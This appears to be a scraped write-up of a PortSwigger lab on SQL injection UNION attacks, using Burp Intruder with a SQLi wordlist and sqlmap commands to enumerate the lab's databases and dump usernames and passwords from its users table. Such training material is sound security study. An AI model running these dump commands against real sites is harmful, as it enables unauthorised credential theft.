






# SQL injection UNION attack, retrieving data from other tables

```
❓

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.
```

See  and  for an understanding of how SQLi works.

Start off by selecting one of the filters, I decided to go with “Tech gifts” but this exploit will work on any of the filters.



```html
https://0a5200d203c4672d8365643d005c0012.web-security-academy.net/filter?category=Tech+gifts
```

Next up send the URL request over to Intruder in Burp Suite, and set the `Tech+gifts` category as the payload, and load a SQLi wordlist. You can tell a site is susceptible to SQLi if the length of the responses are inconsistent.



We can use `sqlmap` to exploit this using the command, proceed with the default prompts.

```bash
sqlmap -u https://0a5200d203c4672d8365643d005c0012.web-security-academy.net/filter?category=Tech+gifts --dbs 
# --dbs enumerates through databases
```



Sqlmap has identified multiple different SQLi methods that can be used `boolean-based blind` , `stacked quieries`, `time-based blind` and `UNION query`. There were also databases found as well.



We can use this command to list the tables available in the specified database:

```bash
sqlmap https://0a5200d203c4672d8365643d005c0012.web-security-academy.net/filter?category=Tech+gifts --tables --batch 
# --batch executes the command without user input, uses defualt behavior
```



Next up we can dump the contents, of the users table using this command:

```bash
sqlmap https://0a5200d203c4672d8365643d005c0012.web-security-academy.net/filter?category=Tech+gifts -D public -T users --batch --dump

```


